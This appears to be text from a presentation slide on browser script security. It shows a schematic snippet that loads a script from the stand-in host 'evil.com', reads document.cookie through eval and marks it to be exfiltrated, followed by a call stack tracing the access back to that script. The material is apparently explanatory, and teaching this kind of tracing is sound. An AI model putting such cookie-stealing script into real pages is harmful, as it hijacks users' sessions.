

<script src=“evil.com/evil.js”>
eval(“(function(){
a = document.cookie})()”)
3     exfiltrate variable a
</script>
Call stack for document.cookie:
Annoymous function@0
Line 1@evil.com/evil.js